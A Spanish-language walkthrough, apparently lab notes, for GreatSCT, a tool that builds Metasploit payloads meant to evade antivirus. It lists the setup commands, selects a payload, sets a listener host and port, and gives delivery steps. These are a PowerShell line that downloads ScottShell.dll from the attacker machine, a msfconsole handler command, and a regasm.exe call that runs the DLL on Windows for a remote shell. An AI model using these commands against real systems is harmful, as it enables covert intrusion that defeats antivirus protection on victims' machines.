










https://github.com/GreatSCT/GreatSCT
Herramienta que genera payloads que son compatibles con metasploit para hacer bypass a soluciones comunes de AV
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/
cd setup
sudo ./setup.sh -c
Si la ejecutamos
sudo ../GreatSCT.py
No tiene módulos cargados

Generamos archivo de configuración.
cd ..
cd config/
sudo python3 update.py
Ejecutamos
sudo ./GreatSCT.py

list

use 1

list

Todos los payloads tienen que ver con diferentes herramientas propias de windows que va a utilizar para ejecutarlo.
Algunos son detectables y otros no.
En este caso vamos a probar el 16.
use 16

set lhost 192.168.20.129
set lport 5555
generate
Le indicamos el nombre al gusto

Las instrucciones son las siguientes:
cp /usr/share/greatsct-output/compiled/ScottShell.dll Desktop
(New-Object System.NET.WebClient).DownloadFile("http://192.168.20.129:8000/ScottShell.dll", "ScottShell.dll")
msfconsole -r /usr/share/greatsct-output/handlers/ScottShell.rc

C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe ScottShell.dll

